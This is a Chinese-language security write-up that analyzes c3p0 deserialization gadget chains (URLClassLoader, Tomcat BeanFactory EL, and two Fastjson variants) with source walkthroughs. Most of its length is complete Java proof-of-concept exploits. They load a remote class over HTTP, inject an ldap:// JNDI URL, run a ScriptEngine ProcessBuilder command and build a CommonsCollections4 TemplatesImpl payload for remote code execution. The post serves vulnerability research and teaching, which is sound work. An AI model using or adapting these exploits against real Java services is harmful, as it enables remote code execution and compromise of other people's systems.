简介
c3p0是用于创建和管理连接，利用“池”的方式复用连接减少资源开销，和其他数据源一样，也具有连接数控制、连接可靠性测试、连接泄露控制、缓存语句等功能。目前，hibernate自带的连接池就是c3p0。
ysoserial之URLClassLoader链分析
利用链分析
利用链
* com.sun.jndi.rmi.registry.RegistryContext->lookup
* com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized->getObject
* com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase->readObject查看com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase类源码
实现有Serializable接口，且具有PropertyChangeSupport和VetoableChangeSupport对象，是的具有监听器的功能
跟进PoolBackedDataSourceBase#writeObject方法

会保存他的成员变量connectionPoolDataSource，但是如果他本身不是一个可以序列化的对象，就会先执行indirector.indirectForm方法之后进行序列化
跟进indirectForm

他会首先调用connectionPoolDataSource的getReference方法得到Reference对象，之后再使用ReferenceIndirector.ReferenceSerialized对象进行包装之后返回一个IndirectlySerialized
这里的ReferenceSerialized是ReferenceIndirector类里面的一个内置类
之后在进行反序列化的时候，跟进PoolBackedDataSourceBase#readObject

会调用IndirectlySerialized#getObject方法还原对象

这个IndirectlySerialized是一个接口，而ReferenceIndirector.ReferenceSerialized实现了这个接口，并重写了getObject方法

所以就是调用的这个getObject方法，跟进

虽然这里具有一个lookup，但是这里的contextName是不可控的，所以触发点不在这里
后面的return语句中调用了ReferenceableUtils.referenceToObject方法，跟进

他从Reference对象中取出了classFactory和classFactoryLocation属性然后进行URLClassLoader进行加载并实例化，这样一个完整的利用链就形成了
POC编写
构造一个不可序列化的并且实现了Referenceable的ConnectionPoolDataSource对象, 其getReference方法返回带有恶意类位置的Reference对象
package ysoserial.vulndemo;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;
public class c3p0_POC {
private static class ConnectionPool implements ConnectionPoolDataSource , Referenceable{
protected String classFactory = null;
protected String classFactoryLocation = null;
public ConnectionPool(String classFactory,String classFactoryLocation){
this.classFactory = classFactory;
this.classFactoryLocation = classFactoryLocation;
}
@Override
public Reference getReference() throws NamingException {
return new Reference("ref",classFactory,classFactoryLocation);
}
@Override
public PooledConnection getPooledConnection() throws SQLException {
return null;
}
@Override
public PooledConnection getPooledConnection(String user, String password) throws SQLException {
return null;
}
@Override
public PrintWriter getLogWriter() throws SQLException {
return null;
}
@Override
public void setLogWriter(PrintWriter out) throws SQLException {
}
@Override
public void setLoginTimeout(int seconds) throws SQLException {
}
@Override
public int getLoginTimeout() throws SQLException {
return 0;
}
@Override
public Logger getParentLogger() throws SQLFeatureNotSupportedException {
return null;
}
}
public static String serialize(Object obj) throws IOException {
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
objectOutputStream.writeObject(obj);
byte[] bytes = byteArrayOutputStream.toByteArray();
objectOutputStream.close();
return Base64.getEncoder().encodeToString(bytes);
}
public static void unserialize(String exp) throws IOException, ClassNotFoundException {
byte[] decode = Base64.getDecoder().decode(exp);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
objectInputStream.readObject();
}
public static void main(String[] args) throws Exception{
Constructor constructor = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase").getDeclaredConstructor();
constructor.setAccessible(true);
PoolBackedDataSourceBase obj = (PoolBackedDataSourceBase) constructor.newInstance();
ConnectionPool connectionPool = new ConnectionPool("EvilObject","http://127.0.0.1:8888/");
Field field = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
field.setAccessible(true);
field.set(obj, connectionPool);
String serialize = serialize(obj);
System.out.println(serialize);
unserialize(serialize);
}
}这里主要是重写那个getReference方法

成功触发计算器
BeanFactory不出网RCE

在加载类的逻辑中，如果Reference对象的classFactoryLocation为null的时候，就不会加载远程字节码，而是直接加载本地字节码
所以我们就需要一个实现了ObjectFactory接口的，并调用他的getObjectInstance方法
在JNDI注入中，在高版本的java中出现了trustCodebaseURL的限制，导致不能远程加载字节码，但是有着绕过高版本的方法
在JNDI中如果进行looup操作的时候，会动态的加载并实例化Factory类，并且调用factory.getObjectInstance()方法获取远程对象实例，攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果
文中使用了org.apache.naming.factory.BeanFactory类+javax.el.ELProcessor#eval执行任意el表达式
POC
package ysoserial.vulndemo;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;
public class c3p0_no_network {
public static String serialize(Object obj) throws Exception {
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
objectOutputStream.writeObject(obj);
byte[] expCode = byteArrayOutputStream.toByteArray();
objectOutputStream.close();
return Base64.getEncoder().encodeToString(expCode);
}
public static void unserialize(String expBase64) throws Exception {
byte[] bytes = Base64.getDecoder().decode(expBase64);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
objectInputStream.readObject();
}
private static class NotSerializable implements ConnectionPoolDataSource, Referenceable {
private String classFactory;
private String classFactoryLocation;
public NotSerializable() {
this.classFactory = "BeanFactory";
this.classFactoryLocation = null;
}
public NotSerializable(String classFactory, String classFactoryLocation) {
this.classFactory = classFactory;
this.classFactoryLocation = classFactoryLocation;
}
@Override
public Reference getReference() throws NamingException {
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
//redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
ref.add(new StringRefAddr("forceString", "x=eval"));
//expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','\"open -a Calculator\"']).start()\")"));
return ref;
}
@Override
public PooledConnection getPooledConnection() throws SQLException {
return null;
}
@Override
public PooledConnection getPooledConnection(String user, String password) throws SQLException {
return null;
}
@Override
public java.io.PrintWriter getLogWriter() throws SQLException {
return null;
}
@Override
public int getLoginTimeout() throws SQLException {
return 0;
}
@Override
public void setLogWriter(java.io.PrintWriter out) throws SQLException {
}
@Override
public void setLoginTimeout(int seconds) throws SQLException {
}
@Override
public Logger getParentLogger() throws SQLFeatureNotSupportedException {
return null;
}
}
public static void main(String[] args) throws Exception {
PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
ConnectionPoolDataSource connectionPoolDataSource1 = new NotSerializable();
Field field = poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
field.setAccessible(true);
field.set(poolBackedDataSourceBase, connectionPoolDataSource1);
String serializeData = serialize(poolBackedDataSourceBase);
System.out.println(serializeData);
unserialize(serializeData);
}
}条件
需要tomcat8下的依赖
除了使用EL表达式也有其他利用
```java
org.apache.naming.factory.BeanFactory + groovy- ```java org.apache.naming.factory.BeanFactory + SnakeYaml```java
org.apache.naming.factory.BeanFactory + XStream## Fastjson中的JndiRefForwardingDataSource类利用 ### 分析  在其中的`dereference`方法中存在一个lookup，如果这个`jndiName`可控就会导致JNDI注入 虽然在`JndiRefForwardingDataSource`类中，并没有对应的setter，但是这个类继承了`JndiRefDataSourceBase`类，在这个类中存在有setter方法  这样，这个`jndiName`就可以控制了  在`inner`方法中存在`dereference`的调用，寻找setter方法  这两个setter都调用了inner方法，但是因为`setLogWriter`的参数是`PrintWriter`对象，我们选择简单的int类型参数的`setLoginTimeout`方法 ### 构建POC ```java package ysoserial.vulndemo; import com.alibaba.fastjson.JSON; public class c3p0_fastjson { public static void main(String[] args){ String poc = "{\"@type\": \"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",\n"+"\"jndiName\": \"ldap://127.0.0.1:1389/fvtvuj\",\n"+"\"loginTimeout\": 0}"; JSON.parseObject(poc); } }
Fastjson之WrapperConnectionPoolDataSource类不出网利用
分析
这里主要是使用的是WrapperConnectionPoolDataSourece类，跟进

这个类在初始化的时候，就调用了setUpPropertyListeners方法开启了属性监听功能

这里的VetoableChangeListener就是一个监听器，在属性改变的时候就会调用监听器的VetoableChange的方法，这里就创建了一个监听器，而且重写了vetoableChange方法
后面通过调用addVetoableChangeListener，将监听器添加到自己的属性vcs

那这个vcs属性又是什么呢，是VetoableChangeSupport，这个就是一个监听器的列表，并且会向监听器列表发送 PropertyChangeEvent ，来跟踪属性的更改情况。

在设置属性时，为了监控属性的变化，就会去调用vcs.fireVetoableChange 方法，此方法有很多重载，但最后都会封装一个PropertyChangeEvent 对象

传递给了监听器的vetoableChange方法
来看看重新的vetoableChange方法的逻辑

他只监听两个属性connectionTesterClassName和userOverridesAsString
第一个属性不能利用
第二个属性userOverridesAsString：
会调用C3P0ImplUtils.parseUserOverridesAsString处理新的属性值，跟进细节

截取了HexAsciiSerializedMap后的第二个字符到倒数第二个字符的hex串
之后通过调用fromHexAscii方法将hex转化为序列化字节，再通过调用了SerializableUtils.fromByteArray方法处理序列化字节

调用了deserializeFromByteArray进行反序列化，如果这里是一个恶意的字节码，就会进行恶意触发漏洞
所以现在我们就需要userOverridesAsString的setter方法，就会调用这个链子
在WrapperConnectionPoolDataSource类中是没有这个方法的，但是他继承了WrapperConnectionPoolDataSourceBase类

这个类具有对应的setter方法
编写POC
package ysoserial.vulndemo;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class c3p0_fastjson2 {
public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
try {
Field field = clazz.getDeclaredField(fieldName);
if ( field != null )
field.setAccessible(true);
else if ( clazz.getSuperclass() != null )
field = getField(clazz.getSuperclass(), fieldName);
return field;
}
catch ( NoSuchFieldException e ) {
if ( !clazz.getSuperclass().equals(Object.class) ) {
return getField(clazz.getSuperclass(), fieldName);
}
throw e;
}
}
public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
}
public static PriorityQueue CommonsCollections4() throws Exception {
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass ctClass = pool.makeClass("c3p0Exploit");
ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
String shell = "java.lang.Runtime.getRuntime().exec(\"calc\");";
ctClass.makeClassInitializer().insertBefore(shell);
byte[] shellCode = ctClass.toBytecode();
byte[][] targetCode = new byte[][]{shellCode};
TemplatesImpl templatesImpl = new TemplatesImpl();
setFieldValue(templatesImpl, "_name", "RoboTerh");
setFieldValue(templatesImpl, "_bytecodes", targetCode);
setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
PriorityQueue priorityQueue = new PriorityQueue(2);
priorityQueue.add(1);
priorityQueue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(priorityQueue, transformingComparator);
return priorityQueue;
}
public static byte[] toByteArray(InputStream in) throws Exception {
byte[] classBytes;
classBytes = new byte[in.available()];
in.read(classBytes);
in.close();
return classBytes;
}
public static String bytesToHexString(byte[] bArray, int length) {
StringBuffer sb = new StringBuffer(length);
for(int i = 0; i < length; ++i) {
String sTemp = Integer.toHexString(255 & bArray[i]);
if (sTemp.length() < 2) {
sb.append(0);
}
sb.append(sTemp.toUpperCase());
}
return sb.toString();
}
public static void main(String[] args) throws Exception {
PriorityQueue queue = CommonsCollections4();
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream outputStream = new ObjectOutputStream(byteArrayOutputStream);
outputStream.writeObject(queue);
outputStream.close();
byte[] bytes = byteArrayOutputStream.toByteArray();
//byte[] bytes = toByteArray(inputStream);
String hexString = bytesToHexString(bytes, bytes.length);
String poc = "{\n\t\"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n\t\"userOverridesAsString\": \"HexAsciiSerializedMap:" + hexString + ";\"\n}";
System.out.println(poc);
JSON.parseObject(poc);
}
